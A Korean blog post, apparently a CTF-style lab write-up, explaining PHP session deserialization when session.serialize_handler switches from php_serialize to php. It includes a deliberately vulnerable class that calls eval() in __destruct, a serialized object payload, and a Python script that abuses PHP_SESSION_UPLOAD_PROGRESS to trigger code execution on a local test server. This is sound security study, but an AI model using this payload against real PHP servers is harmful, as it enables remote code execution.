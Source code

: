 ```yaml
---
layout: post
title:  "PHP session.serialize_handler가 php_serialize로 되어 있는 경우 역직렬화 취약점 발생"
tags: [WEB-Vuln,WEB-Study]
excerpt: "PHP session.serialize_handler이 php_serialize에서 php으로 변경될 경우 세션이 역직렬화 되는 과정에서 발생하는 역직렬화 취약점"
toc: true
---
```

---

{{ content | toc_only }}

# PHP session.serialize_handler이란?

PHP 설정 세팅 중 [session.serialize_handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler)는 세션의 데이터를 모두 직렬화/역직렬화할 때 사용되는 핸들러입니다.

간단하게 PHP세션의 직렬화/역직렬화 방식 핸들러를 session.serialize_handler옵션을 이용하여 지정할 수 있게 됩니다.

php.net를 살펴보면 나와있는대로 default는 php으로 지정되어 있고 php_binary, php_serialize, wddx가 있다고 나와 있습니다.

이번 블로그 글에서 다룰 부분은 session.serialize_handler이 기본으로 php_serialize으로 설정 되어 있는 상태에서 로컬에서 session.serialize_handler을 php 으로 바꾸는 과정에서 발생할 수 있는 역직렬화 취약점을 적어볼려고 합니다.

---

## PHP session.serialize_handler php_serialize 작동 방식

먼저 session.serialize_handler은 위에서 언급했다시피 기본 값으로는 php으로 되어있습니다.

만약 php에서 ``session_start();`` 함수를 이용하여 세션을 시작하면 ``session_save_path()`` 경로에 ``sess_(PHPSESSID)`` 형식으로 파일에 세션 정보가 직렬화되어 저장됩니다

하지만 만약 session.serialize_handler이 php일 경우 

```php
<?php 

session_start();

$_SESSION['test'] = 'test';

echo session_save_path()."\n";

?>
```

위와 같은 코드를 실행시키면 세션이 시작되면서 session_save_path() 함수 결과의 위치에 세션 정보가 있는걸 볼 수 있습니다.

```bash
$ cat /var/lib/php/sessions/sess_02g9od7s6sn9iv9ob8q63g8u0i
test|s:4:"test";
```

하지만 해당 코드를 session.serialize_handler를 php_serialize로 바꾼 다음 세션 파일을 읽어보면 데이터 저장 형식이 조금 달라진것을 볼 수 있습니다.

```php
a:1:{s:4:"test";s:4:"test";}
```

이제 이러한 php_serialize 방식을 이용하여 php 으로 바꼇을 때 역직렬화 취약점이 발생할 수 있는걸 다뤄보겠습니다.

---

# PHP session.serialize_handler unserialize exploit

먼저 session.serialize_handler을 이용하여 역직렬화 취약점을 발생시킬 수 있는 사이트를 구축해볼려면

[php session.serialize_handler 취약점 발생할 수 있는 환경을 만들어야되는데](https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize) 먼저 php.ini 파일 위치를 찾아 session.serialize_handler값을 php_serialize으로 바꾼 다음

+ [https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize](https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize)

위의 Github 코드와 똑같이 구축한 다음 소스코드를 분석해보면 config.php 파일에서 session.serialize_handler 값을 php으로 변경해주면 세션에 php_serialize으로 직렬화되어 저장되어 있던 데이터가 php으로 변경되면서 역직렬화되는 과정을 거치게 됩니다.

그리고 RCE 취약점을 발생시키기 위해서는 exploit 클래스의 command 값을 조작해야되는데

```php
ini_set("session.serialize_handler", "php");

class exploit{
    public $command;
    function __destruct() {
        eval($this->command);
    }
}

session_start();
```

위의 config.php 파일의 class exploit 부분을 똑같이 로컬에서 구축하여 serialize 함수를 이용해 데이터를 직렬화 해보면

![local test class exploit serialize](\post-images\PHP\SESSION\session.serialize_handler\local_test_exploit_class_serialize.png)

이렇게 ``O:7:"exploit":1:{s:7:"command";s:30:"include('/var/www/html/flag');";}`` exploit 클래스를 직렬화한 데이터가 출력되는것을 볼 수 있습니다.

---

## PHP session.upload_progress를 이용한 SESSION Upload

하지만 exploit 데이터를 가지고 있다고 해도 서버에다가 해당 정보를 전송 할 방법을 없기 때문에 

session.upload_progress.clenup 와 session.upload_progress.enable가 아래와 같이 구성되어 있는 경우

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

PHP에서 세션을 ``session_start()`` 함수를 사용하는 대신 POST로 ``PHP_SESSION_UPLOAD_PROGRESS`` 이름으로 파일 업로드하여 세션을 생성시킬 수 있습니다.

이제 ``session.upload_progress``을 이용하여 POST으로 요청하면 되는데 그냥 단순히 requests 모듈로 open 함수를 써서 files 매개변수에 값을 넣으면 url 인코딩되어 제대로된 값이 들어가지 않기 때문에 

직접 POST body 데이터를 만들어준 다음에 헤더에 me2nuk이라는 쿠키 이름으로 요청보내주면 sess_me2nuk 파일에 php_serialize 방식으로 직렬화된 데이터가 들어간 파일 이름이 직렬화 되어 

페이지에서는 command 이라는 변수가 조작되어 ``include('/var/www/html/flag');`` 코드가 실행되는걸 볼 수 있습니다.
 

```py
import requests

contents = """------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

me2nuk
------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="file"; filename="|O:7:\\"exploit\\":1:{s:7:\\"command\\";s:30:\\"include('/var/www/html/flag');\\";}"
Content-Type: text/plain

------Me2nukPHPSessionUploadProgress--"""

url = "http://127.0.0.1/"
headers = {
    "Content-Type": "multipart/form-data; boundary=----Me2nukPHPSessionUploadProgress",
    "Cookie": "PHPSESSID=me2nuk"
}
r = requests.post(url, headers=headers, data=contents)

print(r.request.body)

result = requests.get(url, headers=headers).text

print(result)
```

하지만 보통은 filename에 들어가게 되면 모든 세션의 정보가 하나로 직렬화되어 sess_me2nuk 파일에 저장되어있을텐데

저렇게 따로 데이터를 분리시켜 exploit 이라는 클래스를 조작할 수 있는 이유는 

\| 특수문자를 이용하여 세션 정보를 분리시켜줄 수 있었기 때문입니다.

만약 \| 파이프를 넣지 않으면 세션 정보로 구별되어 exploit 클래스에 전혀 영향을 끼치지 않으므로 filename 첫번째에 \| 파이프를 넣어준 다음 직렬화된 exploit 클래스 정보를 넣어주면 됩니다.

![request python](\post-images\PHP\SESSION\session.serialize_handler\request.png)

그러면 이렇게 요청한 결과 ``FLAG{phP_sEssi0n_s2rla1ize_haNd12R_pHp_s2ria1ize}``가 나오는걸 볼 수 있습니다.

---

## 후기

이 블로그에서 다룬 내용은 간단하게 ``session.upload_progress.clenup``, ``session.upload_progress.enabled``, ``session.serialize_handler`` 설정을 이용하여 역직렬화 취약점을 발생할 수 있는 주제에 대해 다뤘는데 

처음에는 잘 몰라서 삽질했지만 이 기회에 재밌는 취약점을 공부하여 좋았습니다.